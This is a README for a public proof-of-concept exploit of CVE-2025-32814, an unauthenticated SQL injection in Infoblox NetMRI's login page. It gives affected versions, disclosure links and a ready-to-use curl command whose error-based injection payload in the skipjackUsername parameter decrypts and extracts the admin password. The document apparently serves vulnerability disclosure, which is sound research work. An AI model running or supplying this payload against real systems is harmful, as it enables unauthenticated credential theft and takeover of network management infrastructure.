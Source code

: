 # CVE-2025-32814: Infoblox NetMRI Unauthenticated SQL Injection via skipjackUsername

## Information
**Description:** This exploits an unauthenticated SQL injection via the skipjackUsername GET parameter on the NetMRI login page.  
**Versions Affected:** 7.5.4.104695  
**Version Fixed:** 7.6.1  
**Researcher:** Dave Yesland (https://x.com/daveysec)  
**Disclosure Link:** https://rhinosecuritylabs.com/research/infoblox-multiple-cves/  
**NIST CVE Link:** https://nvd.nist.gov/vuln/detail/CVE-2025-32814  
**Vendor Advisory:** https://support.infoblox.com/s/article/Infoblox-NetMRI-is-vulnerable-to-CVE-2025-32814

## Proof-of-Concept Exploit
### Description
This exploit uses a crafted URL with an SQL injection payload to extract credentials via the skipjackUsername parameter.

### Usage/Exploitation
```
curl -k "https://<NETMRI_HOST>/netmri/config/userAdmin/login.tdf?skipjackUsername=admin%22+AND+updatexml(rand(),concat(CHAR(126),NetmriDecrypt((select%20PasswordSecure%20from%20skipjack.ACLUser%20where%20UserName=%22admin%22),%22password%22,1),CHAR(126)),null)--&skipjackPassword=anything"
```

### Screenshot
![poc_image](poc.png)

